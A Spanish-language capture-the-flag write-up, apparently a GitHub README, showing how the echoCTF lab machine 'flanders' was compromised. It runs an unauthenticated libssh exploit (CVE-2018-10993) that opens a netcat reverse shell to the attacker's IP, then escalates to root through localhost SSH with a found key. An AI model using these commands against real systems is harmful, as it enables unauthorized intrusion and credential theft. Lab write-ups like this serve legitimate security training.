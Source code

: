 # flanders-echoctf
Resolucion de la maquina


## NMAP


```
sudo nmap -sS -p- -n --min-rate 500  10.0.100.34
sudo nmap -sSVC  -p6022  10.0.100.34
```

Encontramos un puerto raro nos dice que es un servicio que no sabemos que es deje el nc conectado


![image](https://github.com/gecr07/flanders-echoctf/assets/63270579/e5ace1bc-53ff-4640-b9cf-0cca398bb39b)

## RCE

Buscamos exploits para esa version de libssh no tenemos usuario osea seria no autenticado. Y encontre  cve-2018-10993.py  que si jalo


```
nc -lvnp 443

python3 cve-2018-10993.py 10.0.100.34 -p 6022 -v -c 'nc -e /bin/sh 10.10.5.82 443'

```

### Fully TTY

```
python -c "import pty;pty.spawn('/bin/bash')"

```

### Alternativa a netstat

Si no se tiene netstat se puede usar la siguiente alternativa

```
ss -ant

```

##### TMUX 

Volver un panel a una ventana compelta


```
CTL + b + !

# Copiar / Pegar con tmux.

0 - [Cntrl + b] + "PgUp" o "["   Permite entrar el modo copia y usar el scrolling (q para salir).
1 - Ir a la linea a partir de la cual se quier copiar.
2 - [Cntrl + Barra espaciadora]
3 - Mover con los cursores para seleccionar lo que se quiere copiar. 
4 - [Alt + w]   Copia el texto seleccionado en el paso anterior.
5 - [Cntrl + b] + "]"   Pega el contenido copiado.


```

![image](https://github.com/gecr07/flanders-echoctf/assets/63270579/0eb5ec63-f20e-48b1-b7e1-054a90e6e093)

Encontramos un puerto 22 en escucha:

```
ps -eafww
ssh -i .ssh/mykey root@127.0.0.1
```

Vemos que se esta ejecutando ese ssh como root lo tomamos!

> Now we see that port 22 is open but only localhost can connect on further search with "ps -eafww" I found that ssh is running as root and listening on this port I used the key found earlier to connect to the localhost via ssh using ssh -i .ssh/mykey root@127.0.0.1 but the key is encrypted with some passphrase by looking at the machine's description the catch phrase is "Okily Dokily" it didn't work in the first try but when I removed the space it worked and we are root now LOCATION OF FLAGS: /root/ /etc/passwd /etc/shadow strings /proc/*/environ | grep ETSCTF








